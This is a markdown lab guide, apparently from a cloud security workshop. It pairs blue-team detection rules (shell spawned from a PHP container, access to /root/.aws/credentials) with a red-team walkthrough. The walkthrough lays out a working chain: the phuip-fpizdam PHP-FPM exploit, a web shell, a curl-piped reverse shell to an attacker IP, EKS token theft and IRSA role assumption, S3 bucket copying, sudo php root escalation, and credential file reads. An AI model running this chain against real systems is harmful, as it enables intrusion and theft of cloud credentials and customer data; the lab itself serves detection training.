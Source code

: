 # Blue Team - Lab Steps

- **Evaluate the architecture of the applications and different weaknesses that we may want to monitor:**
  - [Link to graph query](https://app.wiz.io/explorer/graph#%7E%28queryTitle%7E%27Issue*20Evidence%7Equery%7E%28relationships%7E%28%7E%28type%7E%28%7E%28type%7E%27OWNS%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28type%7E%27ACTING_AS%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28reverse%7Etrue%7Etype%7E%27ASSIGNED_TO%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28type%7E%27PERMITS%29%29%7Ewith%7E%28select%7Etrue%7Etype%7E%28%7E%27ACCESS_ROLE%29%29%29%7E%28type%7E%28%7E%28type%7E%27APPLIES_TO%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28reverse%7Etrue%7Etype%7E%27ENTITLES%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28type%7E%27ALLOWS%29%29%7Ewith%7E%28select%7Etrue%7Etype%7E%28%7E%27ACCESS_ROLE_PERMISSION%29%29%29%7E%28type%7E%28%7E%28type%7E%27ALLOWS_ACCESS_TO%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28type%7E%27HAS_DATA_FINDING%29%29%7Ewith%7E%28select%7Etrue%7Etype%7E%28%7E%27DATA_FINDING%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27BUCKET%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27IAM_BINDING%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27SERVICE_ACCOUNT%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27ACCESS_ROLE_BINDING%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27SERVICE_ACCOUNT%29%29%29%7E%28type%7E%28%7E%28type%7E%27CONTAINS%29%29%7Ewith%7E%28type%7E%28%7E%27CONTAINER%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27INSTANCE_OF%29%29%7Ewith%7E%28type%7E%28%7E%27CONTAINER_IMAGE%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27ALERTED_ON%7Ereverse%7Etrue%29%29%7Ewith%7E%28select%7Etrue%7EblockName%7E%27Has*20vulnerabilities%7Etype%7E%28%7E%27SECURITY_TOOL_FINDING%29%7Ewhere%7E%28severity%7E%28EQUALS%7E%28%7E%27VulnerabilitySeverityCritical%7E%27VulnerabilitySeverityHigh%7E%27VulnerabilitySeverityMedium%7E%27VulnerabilitySeverityLow%29%29%29%7EblockExpanded%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27CAUSES%7Ereverse%7Etrue%29%29%7Ewith%7E%28type%7E%28%7E%27VULNERABILITY%29%29%29%29%29%29%7E%28type%7E%28%7E%28type%7E%27CONTAINS%29%29%7Ewith%7E%28type%7E%28%7E%27SECRET_INSTANCE%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27INSTANCE_OF%29%29%7Ewith%7E%28type%7E%28%7E%27SECRET_DATA%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27PERMITS%29%29%7Ewith%7E%28type%7E%28%7E%27USER_ACCOUNT%29%7Eselect%7Etrue%29%29%29%29%29%29%29%29%29%29%29%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27POD%29%29%29%7E%28type%7E%28%7E%28reverse%7Etrue%7Etype%7E%27CONTAINS%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28type%7E%27CONTAINS%29%29%7Ewith%7E%28select%7Etrue%7Etype%7E%28%7E%27KUBERNETES_CLUSTER%29%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27CONTAINS%29%29%7Ewith%7E%28type%7E%28%7E%27DEPLOYMENT%29%7Eselect%7Etrue%7Ewhere%7E%28name%7E%28CONTAINS%7E%28%7E%27nginx%29%29%29%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27OWNS%29%29%7Ewith%7E%28type%7E%28%7E%27POD%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27CONTAINS%29%29%7Ewith%7E%28type%7E%28%7E%27CONTAINER%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27INSTANCE_OF%29%29%7Ewith%7E%28type%7E%28%7E%27CONTAINER_IMAGE%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27ALERTED_ON%7Ereverse%7Etrue%29%29%7Ewith%7E%28type%7E%28%7E%27SECURITY_TOOL_FINDING%29%7Eselect%7Etrue%29%29%29%29%29%29%29%29%29%29%29%29%29%29%29%29%29%7E%28type%7E%28%7E%28type%7E%27CONTAINS%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28type%7E%27INSTANCE_OF%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28reverse%7Etrue%7Etype%7E%27ALERTED_ON%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28reverse%7Etrue%7Etype%7E%27CAUSES%29%29%7Ewith%7E%28type%7E%28%7E%27VULNERABILITY%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27SECURITY_TOOL_FINDING%29%7Ewhere%7E%28severity%7E%28EQUALS%7E%28%7E%27VulnerabilitySeverityCritical%7E%27VulnerabilitySeverityHigh%29%29%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27CONTAINER_IMAGE%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27CONTAINER%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27SUBSCRIPTION%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27DEPLOYMENT%29%7Ewhere%7E%28name%7E%28CONTAINS%7E%28%7E%27php%29%29%29%29%7Elayers%7E%28%7E%27issues%7E%27public_exposure%7E%27lateral_movement%29%7Eview%7E%27graph%29)
- **Setup Threat Detection Rule to monitor for a shell spawned from the potentially exploited PHP web app:**

  - Go to `Policies > Threat Detection Rules > Create Rule`
  - **Rule Type:** Workload Runtime Rule
  - **Name:** Shell executed from php-fpm or php container
  - **Description:**
    - The purpose of this threat detection rule is to detect a shell spawned by the vulnerable php web app
  - **Severity:** High
  - **Event Type:** Process Execution
    - **Process Names:** `dash` `bash` `sh`
  - **Actor > + Add Actor**
    - **Process Names:** `php` `php-fpm`
    - **Container Names:** `php`
  - **Create Rule**

- **Setup Runtime FIM Rule to monitor for any access of the high privilege AWS credentials that are stored on the container image:**
  - Go to `Policies > Threat Detection Rules > Create Rule`
  - **Rule Type:** FIM Rule
  - **Name:** Highly privileged AWS credentials file accessed
  - **Description:**
  - **Severity:** Medium
  - **Detection Method:** Runtime FIM
    - Note: Agentless FIM can detect Creation, Deletion, and Modification between agentless scans. However, it cannot detect Open and Permissions Changes, as well as realtime Creation, Deletion, and Modification. Therefore, we are using Runtime FIM only in this case.
  - **Monitoring Conditions:**
    - **Directory Paths:** `/root/.aws/`
    - **Include:** `credentials`
    - **Attributes:** Open
    - **Coverage:** Both host and container file systems
  - **Create Rule**

# Attack Overview

# Red Team - Lab Steps

- **Navigate to the web app in the browser and leave the session open:**

  - [http://${APP_URL}/index.php](http://${APP_URL}/index.php)

- **Trigger Exploit:**

  - `./phuip-fpizdam http://${APP_URL}/index.php`

- **Test Shell in Browser:**

  - Add `?` to the end of the URL in the browser
  - Add `a=id`
  - Press Enter / Return

    ***

    **NOTE**

    You may have to press enter / return twice in order for the shell to execute.
    The full URL should look like this: http://${APP_URL}/index.php?a=id

    ***

- **Attacker Box:**

  - `nc -lv 1337`

- **Test Reverse Shell:**

  - After the `?`, replace `a=id` with:
    - `curl -k https://reverse-shell.sh/${ATTACKER_IPV4}:1337 | sh`

- **In Reverse Shell, run the following commands:**

  - **User on container host:**
    - `whoami`
  - **Validate IRSA access:**
    - `cat /var/run/secrets/eks.amazonaws.com/serviceaccount/token`
    - Break up the JWT:
      ```sh
      JWT=$(cat /var/run/secrets/eks.amazonaws.com/serviceaccount/token); IFS='.' read -r header payload signature <<< "$JWT"; echo -e "\nHeader:"; echo "$header" | awk '{print $0 "=="}' | base64 -d | jq .; echo -e "\n"; echo "Payload:"; echo "$payload" | awk '{print $0 "=="}' | base64 -d | jq .; echo -e "\n"; echo "Signature (base64):"; echo "$signature"
      ```
    ```sh
    RESPONSE=$(aws sts assume-role-with-web-identity --role-arn "${IRSA_ROLE}" --role-session-name "attacker-session" --web-identity-token file:///var/run/secrets/eks.amazonaws.com/serviceaccount/token --output json)
    ```
    ```sh
    echo $RESPONSE | jq .
    ```
    ```sh
    export AWS_ACCESS_KEY_ID=$(echo $RESPONSE | jq -r '.Credentials.AccessKeyId');
    export AWS_SECRET_ACCESS_KEY=$(echo $RESPONSE | jq -r '.Credentials.SecretAccessKey');
    export AWS_SESSION_TOKEN=$(echo $RESPONSE | jq -r '.Credentials.SessionToken')
    ```
    ```sh
    aws sts get-caller-identity
    ```
  - **List buckets:**
    - `aws s3 ls`
    - `aws s3 ls ${WEB_BUCKET}`
    - `aws s3 cp s3://${WEB_BUCKET} ./ --recursive`
  - **Access other credentials file:**
    - `cat /root/.aws/credentials/`

- **Test LinPEAS over reverse shell:**

  - `curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh`
  - **Can I write anywhere?:**
    - `tmp`
  - **What if I run it directly from memory?:**
    - `curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh`

- **Use php to escalate privileges:**

  - GTFObin
    ```sh
    CMD="/bin/bash"
    sudo php -r "system('$CMD');"
    ```

- **Validate that you were able to escalate privileges to root:**

  - `whoami`

- **Access credentials file:**

  - `cat /root/.aws/credentials`

- **Use credentials to access AWS:**

  - `aws sts get-caller-identity`

  - **List buckets:**
    - `aws s3 ls`
    - `aws s3 ls ${CUSTOMER_BUCKET}`
    - `aws s3 cp s3://${CUSTOMER_BUCKET} ./ --recursive`
